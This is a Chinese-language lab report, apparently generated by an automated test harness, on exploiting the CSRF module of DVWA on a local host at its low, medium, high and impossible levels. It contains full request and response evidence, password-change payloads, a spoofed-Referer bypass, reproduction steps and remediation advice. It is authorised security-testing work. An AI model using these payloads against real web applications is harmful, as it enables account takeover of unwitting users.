- `9`: `$pass_new  = $_GET[ 'password_new' ];`
- `10`: `$pass_conf = $_GET[ 'password_conf' ];`
- `14`: `$pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));`
- `18`: `$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );`
- `28`: `$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));`
- `32`: `$data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );`
- `39`: `$html .= "<pre>Password Changed.</pre>";`
- `48`: `generateSessionToken();`

## 请求模型
- 登录: `GET/POST /dvwa/login.php`; 参数 `username`, `password`, `Login`, `user_token`。
- 设置难度: `POST /dvwa/security.php`; 参数 `security`, `seclev_submit`, `user_token`。
- CSRF 模块: `GET /dvwa/vulnerabilities/csrf/`。
- low/medium 变更密码: `password_new`, `password_conf`, `Change`。
- high 额外需要 fresh `user_token`；impossible 额外需要 `password_current`。
- 成功标记: `Password Changed.`；失败标记: `Passwords did not match.`, `That request didn't look correct.`, `CSRF token is incorrect`, `Passwords did not match or current password incorrect.`。
- Cookie: `PHPSESSID` 保持会话，`security` 控制 DVWA 难度。

## 假设与测试设计
- low: 若无 token/Referer/current-password 校验，直接 GET 应能变更密码。
- medium: 无 Referer 和外部 Referer 应失败；包含 `127.0.0.1` 子串的 Referer 应绕过弱校验。
- high: 缺失/错误 token 应失败；fresh token 能证明服务端仍未要求当前密码，但盲跨站 CSRF 被 token 阻止。
- impossible: 缺失 token 或当前密码错误均失败；只有知道当前密码的合法请求能变更。

## 执行证据
### low
- 表单字段: `['password_new', 'password_conf', 'Change']`; token_present=`False`
- 基线证据: `{"markers": ["Passwords did not match."], "request": "requests/low-009-baseline-mismatch.json"}`
- 证明请求/响应: `{"params": {"password_new": "dvwa_csrf_tmp_low_20260602", "password_conf": "dvwa_csrf_tmp_low_20260602", "Change": "Change"}, "markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "password_changed": true, "request_file": {"difficulty": "low", "label": "csrf-proof-no-token-no-referer", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=dvwa_csrf_tmp_low_20260602&password_conf=dvwa_csrf_tmp_low_20260602&Change=Change", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive"}, "params": {"password_new": "dvwa_csrf_tmp_low_20260602", "password_conf": "dvwa_csrf_tmp_low_20260602", "Change": "Change"}, "data": null, "json": null, "response_length": 5979, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials New password: Confirm new password: Password Changed. Note: Browsers are starting to d", "duration_s": 0.033}}`
- 恢复验证: `{"response_markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "restored": true, "request_file": {"difficulty": "low", "label": "restore-password", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive"}, "params": {"password_new": "password", "password_conf": "password", "Change": "Change"}, "data": null, "json": null, "response_length": 5979, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials New password: Confirm new password: Password Changed. Note: Browsers are starting to d", "duration_s": 0.031}, "credential_file": {"difficulty": "low", "label": "verify-restored-password", "method": "POST", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/test_credentials.php", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/test_credentials.php", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive", "Content-Length": "44", "Content-Type": "application/x-www-form-urlencoded"}, "params": null, "data": {"username": "admin", "password": "password", "Login": "Login"}, "json": null, "response_length": 1275, "response_markers": ["Valid password for 'admin'"], "response_snippet": "Notice : Array to string conversion in D:\\phpStudy\\PHPTutorial\\WWW\\DVWA\\dvwa\\includes\\dvwaPage.inc.php on line 79 Damn Vulnerable Web Application (DVWA)Test Credentials Test Credentials Vulnerabilities/CSRF Valid password for 'admin' Username Password", "duration_s": 0.029}}`
### medium
- 表单字段: `['password_new', 'password_conf', 'Change']`; token_present=`False`
- 基线证据: `{"no_referer_markers": ["That request didn't look correct."], "external_referer_markers": ["That request didn't look correct."]}`
- 证明请求/响应: `{"params": {"password_new": "dvwa_csrf_tmp_medium_20260602", "password_conf": "dvwa_csrf_tmp_medium_20260602", "Change": "Change"}, "referer": "http://127.0.0.1.attacker.local/csrf.html", "markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "password_changed": true, "request_file": {"difficulty": "medium", "label": "csrf-proof-weak-referer-substring", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=dvwa_csrf_tmp_medium_20260602&password_conf=dvwa_csrf_tmp_medium_20260602&Change=Change", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive", "Referer": "http://127.0.0.1.attacker.local/csrf.html"}, "params": {"password_new": "dvwa_csrf_tmp_medium_20260602", "password_conf": "dvwa_csrf_tmp_medium_20260602", "Change": "Change"}, "data": null, "json": null, "response_length": 5988, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials New password: Confirm new password: Password Changed. Note: Browsers are starting to d", "duration_s": 0.047}}`
- 恢复验证: `{"response_markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "restored": true, "request_file": {"difficulty": "medium", "label": "restore-password", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive", "Referer": "http://127.0.0.1.attacker.local/csrf.html"}, "params": {"password_new": "password", "password_conf": "password", "Change": "Change"}, "data": null, "json": null, "response_length": 5988, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials New password: Confirm new password: Password Changed. Note: Browsers are starting to d", "duration_s": 0.049}, "credential_file": {"difficulty": "medium", "label": "verify-restored-password", "method": "POST", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/test_credentials.php", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/test_credentials.php", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive", "Content-Length": "44", "Content-Type": "application/x-www-form-urlencoded"}, "params": null, "data": {"username": "admin", "password": "password", "Login": "Login"}, "json": null, "response_length": 1275, "response_markers": ["Valid password for 'admin'"], "response_snippet": "Notice : Array to string conversion in D:\\phpStudy\\PHPTutorial\\WWW\\DVWA\\dvwa\\includes\\dvwaPage.inc.php on line 79 Damn Vulnerable Web Application (DVWA)Test Credentials Test Credentials Vulnerabilities/CSRF Valid password for 'admin' Username Password", "duration_s": 0.044}}`
### high
- 表单字段: `['password_new', 'password_conf', 'Change', 'user_token']`; token_present=`True`
- 基线证据: `{"missing_token_markers": [], "wrong_token_markers": []}`
- 证明请求/响应: `{"params": {"password_new": "dvwa_csrf_tmp_high_20260602", "password_conf": "dvwa_csrf_tmp_high_20260602", "Change": "Change", "user_token": "ec5b6c59d95bb316e4d12c5b580bb266"}, "markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "password_changed": true, "request_file": {"difficulty": "high", "label": "token-aware-password-change", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=dvwa_csrf_tmp_high_20260602&password_conf=dvwa_csrf_tmp_high_20260602&Change=Change&user_token=ec5b6c59d95bb316e4d12c5b580bb266", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive"}, "params": {"password_new": "dvwa_csrf_tmp_high_20260602", "password_conf": "dvwa_csrf_tmp_high_20260602", "Change": "Change", "user_token": "ec5b6c59d95bb316e4d12c5b580bb266"}, "data": null, "json": null, "response_length": 6067, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials New password: Confirm new password: Password Changed. Note: Browsers are starting to d", "duration_s": 0.046}}`
- 恢复验证: `{"response_markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "restored": true, "request_file": {"difficulty": "high", "label": "restore-password", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change&user_token=86a2e12236aa714707b205c1d168da13", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive"}, "params": {"password_new": "password", "password_conf": "password", "Change": "Change", "user_token": "86a2e12236aa714707b205c1d168da13"}, "data": null, "json": null, "response_length": 6067, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials New password: Confirm new password: Password Changed. Note: Browsers are starting to d", "duration_s": 0.047}}`
### impossible
- 表单字段: `['password_current', 'password_new', 'password_conf', 'Change', 'user_token']`; token_present=`True`
- 基线证据: `{"missing_token_markers": [], "wrong_current_markers": ["Passwords did not match or current password incorrect."]}`
- 证明请求/响应: `{"legitimate_params": {"password_current": "password", "password_new": "dvwa_csrf_tmp_impossible_20260602", "password_conf": "dvwa_csrf_tmp_impossible_20260602", "Change": "Change", "user_token": "b6d5d66b2f26e790e0647e24573b6e21"}, "markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "password_changed_when_current_password_known": true, "request_file": {"difficulty": "impossible", "label": "legitimate-change-with-current-password", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_current=password&password_new=dvwa_csrf_tmp_impossible_20260602&password_conf=dvwa_csrf_tmp_impossible_20260602&Change=Change&user_token=b6d5d66b2f26e790e0647e24573b6e21", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive"}, "params": {"password_current": "password", "password_new": "dvwa_csrf_tmp_impossible_20260602", "password_conf": "dvwa_csrf_tmp_impossible_20260602", "Change": "Change", "user_token": "b6d5d66b2f26e790e0647e24573b6e21"}, "data": null, "json": null, "response_length": 6190, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials Current password: New password: Confirm new password: Password Changed. Note: Browsers", "duration_s": 0.048}}`
- 恢复验证: `{"response_markers": ["Password Changed."], "credential_marker": "Valid password for 'admin'", "restored": true, "request_file": {"difficulty": "impossible", "label": "restore-password", "method": "GET", "url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/", "final_url": "http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_current=dvwa_csrf_tmp_impossible_20260602&password_new=password&password_conf=password&Change=Change&user_token=3890586ae023c8681a6ce6b59454fe86", "status_code": 200, "request_headers": {"User-Agent": "python-requests/2.32.3", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "keep-alive"}, "params": {"password_current": "dvwa_csrf_tmp_impossible_20260602", "password_new": "password", "password_conf": "password", "Change": "Change", "user_token": "3890586ae023c8681a6ce6b59454fe86"}, "data": null, "json": null, "response_length": 6190, "response_markers": ["Password Changed."], "response_snippet": "Vulnerability: Cross Site Request Forgery (CSRF) :: Damn Vulnerable Web Application (DVWA) Home Instructions Setup / Reset DB Brute Force Command Injection CSRF File Inclusion File Upload Insecure CAPTCHA SQL Injection SQL Injection (Blind) Weak Session IDs XSS (DOM) XSS (Reflected) XSS (Stored) CSP Bypass JavaScript Attacks Authorisation Bypass Open HTTP Redirect Cryptography API DVWA Security PHP Info About Logout Vulnerability: Cross Site Request Forgery (CSRF) Change your admin password: Test Credentials Current password: New password: Confirm new password: Password Changed. Note: Browsers", "duration_s": 0.05}}`

## 截图
Playwright 截图成功，命令: `node .\generated-harnesses\csrf_playwright_screenshots.js .\screenshots`。
- `screenshots/high/baseline-missing-token.png`

  
- `screenshots/high/module-page.png`

  
- `screenshots/high/security-set.png`

  
- `screenshots/high/token-aware-change.png`

  
- `screenshots/high/verify-temp-password.png`

  
- `screenshots/impossible/baseline-missing-token.png`

  
- `screenshots/impossible/legitimate-change-with-current-password.png`

  
- `screenshots/impossible/module-page.png`

  
- `screenshots/impossible/security-set.png`

  
- `screenshots/impossible/verify-restored-password.png`

  
- `screenshots/impossible/verify-temp-password.png`

  
- `screenshots/impossible/wrong-current-password.png`

  
- `screenshots/low/baseline-mismatch.png`

  
- `screenshots/low/module-page.png`

  
- `screenshots/low/proof-password-changed.png`

  
- `screenshots/low/security-set.png`

  
- `screenshots/low/verify-temp-password.png`

  
- `screenshots/medium/baseline-no-referer.png`

  
- `screenshots/medium/module-page.png`

  
- `screenshots/medium/proof-weak-referer.png`

  
- `screenshots/medium/security-set.png`

  
- `screenshots/medium/verify-temp-password.png`

  

## 计时汇总
- 开始: `2026-06-02T10:44:52+08:00`
- 结束: `2026-06-02T10:50:44+08:00`
- 总耗时: 约 `4.321`s（HTTP harness）；截图为后续补充执行。
- HTTP 请求总数: `50`
- 分难度耗时: low=0.301s, medium=0.416s, high=0.545s, impossible=0.499s

## 结果
- low: `vulnerable`，无 CSRF 防护，密码变更和恢复均成功。
- medium: `vulnerable`，Referer 子串校验可绕过。
- high: `conditionally_exploitable_same_origin_token_required`，缺失/错误 token 失败；fresh token 成功，但这不等同于外部站点可盲打 CSRF。
- impossible: `not_vulnerable`，fresh token + `password_current` 校验阻止 CSRF。

## 修复建议
- 所有状态变更请求使用服务端绑定的 CSRF token，并验证 token 时效和会话所属。
- 不要依赖 Referer 子串；如作辅助控制，需要解析 Origin/Referer 并做严格白名单匹配。
- 密码变更要求当前密码或重新认证。
- Cookie 设置 `HttpOnly`, `Secure`, `SameSite=Lax/Strict`。

## 复现步骤
1. 登录 `http://127.0.0.1/dvwa/login.php`，账号 `admin/password`。
2. 在 `security.php` 依次设置 `low`, `medium`, `high`, `impossible`。
3. 每级访问 `vulnerabilities/csrf/` 记录表单字段和 token。
4. low 直接请求 `?password_new=<tmp>&password_conf=<tmp>&Change=Change`。
5. medium 使用同样参数，附加 `Referer: http://127.0.0.1.attacker.local/csrf.html`。
6. high 先读取 fresh `user_token`，再提交相同参数加 `user_token=<fresh token>`。
7. impossible 用 fresh token 但错误 `password_current`，预期 `Passwords did not match or current password incorrect.`。
8. 每级结束用 `test_credentials.php` 验证临时密码和恢复后的 `password`。

## 产物
- Markdown 报告: `report.md`
- JSON 报告: `report.json`
- 操作日志: `operation-log.jsonl`
- 请求证据: `requests`
- 截图: `screenshots`
- 生成 harness: `generated-harnesses/csrf_progression_harness.py`
- 报告修复脚本: `generated-harnesses/fix_report.py`

## 实验总报告可提取信息

### 实验结论
low/medium 可利用；high 阻止盲跨站 CSRF 但存在同源 token 条件路径；impossible 因 fresh token 和当前密码校验无独立 CSRF 解。

### 各难度漏洞成因
- low: 无 token/Referer/current-password 校验。
- medium: `HTTP_REFERER` 只做 `SERVER_NAME` 子串检查。
- high: fresh `user_token` 阻止盲 CSRF；服务端未要求当前密码。
- impossible: 同时要求 fresh `user_token` 和 `password_current`。

### 解题步骤
登录 -> 切换难度 -> 检查页面表单 -> 阅读对应源码 -> 基线失败探测 -> 提交临时密码 payload -> `test_credentials.php` 验证 -> 恢复 `password`。

### 使用工具与操作
`PowerShell`, `Python 3.11 requests`, `Node Playwright`, `npm.cmd install playwright@1.60.0 --no-audit --no-fund`。

### 核心 payload/测试输入
- low: `password_new=dvwa_csrf_tmp_low_20260602&password_conf=dvwa_csrf_tmp_low_20260602&Change=Change`
- medium: `Referer: http://127.0.0.1.attacker.local/csrf.html`
- high: `password_new=dvwa_csrf_tmp_high_20260602&password_conf=dvwa_csrf_tmp_high_20260602&Change=Change&user_token=<fresh token>`
- impossible: `password_current=wrong-current-password&password_new=dvwa_csrf_tmp_impossible_20260602&password_conf=dvwa_csrf_tmp_impossible_20260602&Change=Change&user_token=<fresh token>`

### 关键截图
- `screenshots/high/baseline-missing-token.png`
- `screenshots/high/module-page.png`
- `screenshots/high/security-set.png`
- `screenshots/high/token-aware-change.png`
- `screenshots/high/verify-temp-password.png`
- `screenshots/impossible/baseline-missing-token.png`
- `screenshots/impossible/legitimate-change-with-current-password.png`
- `screenshots/impossible/module-page.png`
- `screenshots/impossible/security-set.png`
- `screenshots/impossible/verify-restored-password.png`
- `screenshots/impossible/verify-temp-password.png`
- `screenshots/impossible/wrong-current-password.png`
- ... total 22 screenshots, see `screenshots/screenshots.json`

### 复现步骤总结
在授权本地 DVWA 中使用已登录会话按 low/medium/high/impossible 顺序复现，并在每次状态变更后恢复 `admin/password`。

### impossible/无解原因
`impossible.php` 先校验 `user_token`，再查询当前用户的 `password_current` 哈希；不知道当前密码时无法构造 CSRF 变更请求。

### 辅助脚本
- `generated-harnesses/csrf_progression_harness.py`
- `generated-harnesses/csrf_playwright_screenshots.js`
- `generated-harnesses/fix_report.py`

### 起止时间和耗时
- 开始: `2026-06-02T10:44:52+08:00`
- 结束: `2026-06-02T10:50:44+08:00`
- 耗时: HTTP harness `4.321`s，截图为后续补充。

### 人工验证关注点
检查 `security` cookie 和当前难度一致；检查请求证据中的成功/失败标记；检查最终 `admin/password` 能登录。

## 局限
- 未使用 Burp/ZAP 代理历史；请求证据由 `requests/*.json` 保存。
- `py -3` 指向 Python 3.14.0a5，导入 `requests` 时出现 Windows access violation；实际使用 `py -3.11` 执行。
- high 的 fresh-token 成功是同源/授权 harness 证据，不表示外部站点可盲打 CSRF。
